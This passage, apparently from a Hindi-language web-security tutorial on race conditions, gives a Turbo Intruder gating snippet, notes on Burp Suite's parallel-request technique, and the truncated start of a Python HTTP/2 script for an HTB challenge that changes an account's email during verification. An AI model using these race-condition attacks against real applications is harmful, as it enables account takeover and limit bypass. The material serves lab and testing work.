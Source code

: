 ```python
# queue 50 confirmation requests - note that this will probably sent in two separate packets
for i in range(50):
engine.queue(confirmationReq, gate=currentAttempt)

# send all the queued requests for this attempt
engine.openGate(currentAttempt)
```
* यह **Repeater** में **Burp Suite** के नए '**Send group in parallel**' विकल्प के माध्यम से भी उपलब्ध है।
* **limit-overrun** के लिए आप समूह में **एक ही अनुरोध 50 बार** जोड़ सकते हैं।
* **connection warming** के लिए, आप **group** के **शुरुआत** में कुछ **अनुरोध** जोड़ सकते हैं जो वेब सर्वर के कुछ गैर-स्थिर भाग पर हों।
* **delaying** प्रक्रिया के लिए **एक अनुरोध और दूसरे** के बीच **प्रसंस्करण** में 2 उप-राज्य चरणों में, आप **दोनों अनुरोधों के बीच अतिरिक्त अनुरोध जोड़ सकते हैं**।
* **multi-endpoint** RC के लिए, आप **request** भेजना शुरू कर सकते हैं जो **hidden state** की ओर जाता है और फिर इसके तुरंत बाद **50 requests** जो **hidden state** का लाभ उठाते हैं।

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

* **Automated python script**: इस स्क्रिप्ट का लक्ष्य एक उपयोगकर्ता का ईमेल बदलना है जबकि इसे लगातार सत्यापित किया जा रहा है जब तक कि नए ईमेल का सत्यापन टोकन अंतिम ईमेल पर नहीं पहुंचता (यह इसलिए है क्योंकि कोड में एक RC देखा जा रहा था जहां एक ईमेल को संशोधित करना संभव था लेकिन सत्यापन पुराने पर भेजा गया था क्योंकि ईमेल को इंगित करने वाला चर पहले से पहले वाले के साथ भरा हुआ था)।\
जब प्राप्त ईमेल में "objetivo" शब्द पाया जाता है, तो हम जानते हैं कि हमें बदले गए ईमेल का सत्यापन टोकन प्राप्त हुआ है और हम हमले को समाप्त कर देते हैं।
```python
# https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun
# Script from victor to solve a HTB challenge
from h2spacex import H2OnTlsConnection
from time import sleep
from h2spacex import h2_frames
import requests

cookie="session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiZXhwIjoxNzEwMzA0MDY1LCJhbnRpQ1NSRlRva2VuIjoiNDJhMDg4NzItNjEwYS00OTY1LTk1NTMtMjJkN2IzYWExODI3In0.I-N93zbVOGZXV_FQQ8hqDMUrGr05G-6IIZkyPwSiiDg"

# change these headers

headersObjetivo= """accept: */*
content-type: application/x-www-form-urlencoded
Cookie: """+cookie+"""
Content-Length: 112
"""

bodyObjetivo = 'email=objetivo%40apexsurvive.htb&username=estes&fullName=test&antiCSRFToken=42a08872-610a-4965-9553-22d7b3aa1827'

headersVerification= """Content-Length: 1
Cookie: """+cookie+"""
"""
CSRF="42a08872-610a-4965-9553-22d7b3aa1827"

host = "94.237.56.46"
puerto =39697


url = "https://"+host+":"+str(puerto)+"/email/"

response = requests.get(url, verify=False)


while "objetivo" not in response.text:
```